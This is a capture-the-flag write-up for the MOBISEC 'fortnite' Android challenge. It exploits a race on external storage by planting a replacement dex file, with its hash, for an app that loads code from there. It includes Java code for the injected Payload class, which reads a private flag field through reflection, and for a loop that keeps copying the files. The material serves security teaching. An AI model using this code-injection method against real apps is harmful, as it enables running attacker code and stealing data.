 # Solution


## Description of the problem

find something useful to get the flag

## Solution

Let's see the description:

> Based on a true story.

Let's find out what this true story is. I search for the key words "fortnite mobile vulnerability" in Google, and I find out [an article](https://themarketingfolks.com/fortnite-mobile-for-android-devices-has-a-serious-security-flaw/) about this. The article says that:

> How the vulnerability works is that any app that has the “WRITE_EXTERNAL_STORAGE” permission can replace the APK after the download is complete. This means that people can replace the APK with malicious software that gives them access to your phone. Additionally the APK installs the package silently in the background so if someone has access to your phone, they can replace the APK with the virus without you noticing while the app is being updated 

So, maybe this challenge is about downloading something in the public storage, and others modify this file, I guess.



Now, let's see the codes.

<img src="screenshots/_exploitation/fortnite/r1.PNG" alt="codes" style="zoom:100%;" />

<img src="screenshots/_exploitation/fortnite/r2.PNG" alt="codes" style="zoom:130%;" />

In MainActivity, the code will download two files, verify the dex file with the signature. If the verification is approved, the class loader will load class `com.mobisec.fortnitepayload.Payload` and run the `run` function/method in this class. The files are downloaded to the `file.getAbsolutePath()`. Therefore, I should build my own dex file with the name of `fortnite.dex` and its sha-2 value in `sign.dat`, use an app to store these two files to `/storage/emulated/0`, and in my own dex file, there should be codes the same class and the same function to get the flag.

To get the flag, in my own dex there should be a classloader in function `run` that can load the `com.mobisec.fortnite.MainActivity` class of the app running in the analysis system and get the value of the `flag`. The java reflection with "Field" method is used here. 

```java
public class Payload {

    public static void run() {
        Log.i("MOBISEC", "package com.mobisec.fortnitepayload.Payload; run()");

        //https://www.tutorialspoint.com/java/lang/thread_getcontextclassloader.htm
        Thread t = Thread.currentThread();
        ClassLoader classloader = t.getContextClassLoader();
        t.setContextClassLoader(classloader);
//        System.out.println("Class = " + classloader.getClass());
//        System.out.println("Parent = " + classloader.getParent());

        try {
            //https://www.cnblogs.com/ldq2016/p/6834643.htm
            Class<?> clz = classloader.loadClass("com.mobisec.fortnite.MainActivity");
            Field field = clz.getDeclaredField("flag");//https://blog.csdn.net/shenhaiwen/article/details/75305176

            field.setAccessible(true);

            Object value = field.get(clz);
            Log.i("MOBISEC", " : " + value);

        } catch (Exception e) {
            Log.w("MOBISEC","package com.mobisec.fortnitepayload,Payload.java: ");
            Log.w("MOBISEC", Log.getStackTraceString(e));
        }
    }
}
```

<img src="screenshots/_exploitation/fortnite/com.mobisec.fornitepayload.Payload.PNG" alt="codes" style="zoom:80%;" />



After [programming this class](AndroidStudioProjects_exploitation/fortnitepayload/app/src/main/java/com/mobisec/fortnitepayload/Payload.java), I build an apk, and unzip this apk package to get the dex file, and put this dex file to the [asset](AndroidStudioProjects_exploitation/fortnite/app/src/main/assets) of another storage program, with the sha-2 hash value. 

<img src="screenshots/_exploitation/fortnite/class3.PNG" alt="codes" style="zoom:80%;" />

<img src="screenshots/_exploitation/fortnite/cl3.PNG" alt="codes" style="zoom:55%;" />



Then in the [second Android studio project](AndroidStudioProjects_exploitation/fortnite/app/src/main/java/com/example/fortnite/MainActivity.java), with these assets, the program will copy these assets to the path `/storage/emulated/0`, in an infinite while loop.

```java
private boolean copyAssetsSingleFile(String outPath, String fileName) {
    File file = new File(outPath);
    if (!file.exists()) {
        if (!file.mkdirs()) {
            Log.e("MOBISEC","--Method--"+ "copyAssetsSingleFile: cannot create directory.");
            return false;
        }
    }
    try {
        InputStream inputStream = getAssets().open(fileName);
        File outFile = new File(file, fileName);
        FileOutputStream fileOutputStream = new FileOutputStream(outFile);
        // Transfer bytes from inputStream to fileOutputStream
        byte[] buffer = new byte[1024];
        int byteRead;
        while (-1 != (byteRead = inputStream.read(buffer))) {
            fileOutputStream.write(buffer, 0, byteRead);
        }
        inputStream.close();
        fileOutputStream.flush();
        fileOutputStream.close();
        return true;
    } catch (IOException e) {
        Log.w("MOBISEC", Log.getStackTraceString(e));
        return false;
    }
}//https://blog.csdn.net/u013642500/article/details/80069811
```



Also, the following permissions are needed to allow the program store files to external storage.

```xml
<uses-permission android:name="android.permission.INTERNET"/>
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"
    tools:ignore="ScopedStorage" />
```



Finally, I get the flag:

<img src="screenshots/_exploitation/fortnite/glaf.PNG" alt="" style="zoom:100%;" />






## Optional Feedback



## reference

Fortnite mobile for Android devices has a serious security flaw: https://themarketingfolks.com/fortnite-mobile-for-android-devices-has-a-serious-security-flaw/

Field usage of Java reflection: https://www.cnblogs.com/ldq2016/p/6834643.html

The difference between getClassLoader() and getContextClassLoader(): https://blog.csdn.net/zlfprogram/article/details/87194220

Java.lang.Thread.getContextClassLoader() Method: https://www.tutorialspoint.com/java/lang/thread_getcontextclassloader.htm

Copy the single file in assets to the specified folder: https://blog.csdn.net/u013642500/article/details/80069811